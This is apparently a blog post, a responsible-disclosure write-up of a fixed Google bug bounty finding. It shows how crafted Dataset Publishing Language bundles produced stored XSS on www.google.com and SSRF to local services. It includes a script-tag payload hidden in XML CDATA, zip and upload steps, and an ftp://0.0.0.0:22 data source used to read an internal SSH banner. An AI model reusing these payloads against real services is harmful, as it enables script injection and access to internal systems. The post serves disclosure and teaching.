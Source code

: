 ```yaml
---
layout: post
title:  "Stored XSS, and SSRF in Google using the Dataset Publishing Language"
date:   2018-03-07 10:00:00
categories: dspl
---
```


> "Those who rule data will rule the entire world." - 孫正義

TLDR; Crafting **Dataset Publishing Language** bundles to get **stored XSS** in the context of **www.google.com**, and using the DSPL remote sources functionality to access local services (**SSRF**). 

The [Google Public Data Explorer](https://www.google.com/publicdata/directory) is a tool to make large datasets easy to explore and visualize. eg., Visualizing Health expenditure, World Bank data (% of government expenditure).
![Image](/assets/dspl/explorer.gif)

Dataset Publishing Language (DSPL) uses XML to describe the dataset metadata and uses CSV data files: eg., sample.zip

{% highlight xml %}
Archive:  sample.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
      246  02-01-2018 13:19   countries.csv
      221  02-14-2011 17:13   country_slice.csv
     7812  03-04-2018 21:12   dataset.xml
      246  02-14-2011 17:13   gender_country_slice.csv
       28  01-29-2018 20:55   genders.csv
      200  02-14-2011 17:13   state_slice.csv
      300  01-29-2018 21:11   states.csv
---------                     -------
     9053                     7 files
{% endhighlight %}

The issue here was that Google Public Data Explorer would use some supplied metadata in the dataset archive without context aware encoding or validation. 

eg., using a sample dataset:
* __curl https://storage.googleapis.com/google-code-archive-downloads/v2/code.google.com/dspl/tutorial1.0.zip -o sample.zip__
* __unzip sample.zip; rm sample.zip__

Modifying the metadata name value of dataset.xml. The XML CDATA section is used here so that the JavaScript payload will not be treated as XML markup.
{% highlight xml %}
<info>
  <name>
    <value><![CDATA[<script>confirm(document.domain)</script>]]></value>
  </name>
    <description>
      <value>Some very interesting statistics about countries</value>
    </description>
    <url>
      <value>http://google.com</value>
    </url>  
</info>
{% endhighlight %}

* __zip -r poc.dspl *__
* __Upload the dataset to Google Public Data Explorer, and share it publically.__

So anyone who viewed the shared dataset would execute an attackers arbitrary JavaScript in the context of the www.google.com domain. (eg., coinhive 🤔)

Short video showing how this worked before it was fixed. Allows stored XSS in the context of www.google.com using DSPL:
<p><iframe src="https://player.vimeo.com/video/258923005" width="640" height="360" frameborder="0" webkitallowfullscreen mozallowfullscreen allowfullscreen></iframe></p>

Dataset Publishing Language also has functionality to allow data to be retrieved from [remote HTTP or FTP sources](https://developers.google.com/public-data/docs/cookbook#remote_data). This functionality allowed SSRF (server-side request forgery) to access localhost service resources (potentially also allows access to internal, non internet accessible systems/devices). eg., 

eg., contents of poc.dspl/dataset.xml
{% highlight xml %}
<table id="my_table">
  <column id="first" type="string"/>
  <column id="last" type="string"/>
  <data>
    <file format="csv" encoding="utf-8">ftp://0.0.0.0:22</file>
  </data>
</table>
{% endhighlight %}

Uploading this dataset would return the response of the HTTP/FTP request in the resulting error condition responses. eg., 

![Image](/assets/dspl/ftp-tcp22.png)
In this example it shows the local SSH banner response which is a service that is not publically accessible.

This was fun to look into when I took some time off in January. Thanks to [@sirdarckcat](https://twitter.com/sirdarckcat) and the Google Security team for the great VRP! If anyone reads this and finds stuff that I missed, you should let me know. 😅  [@signalchaos](https://twitter.com/signalchaos)

Thanks for reading, 👋 

Disclosure timeline stuff:
* Jan 2018: Reported to Google
* Feb 2018: Verified that the reported issues were fixed
* Feb 2018: Rewarded $5,000 for Stored XSS
* Mar 2018: Rewarded $13,337 for SSRF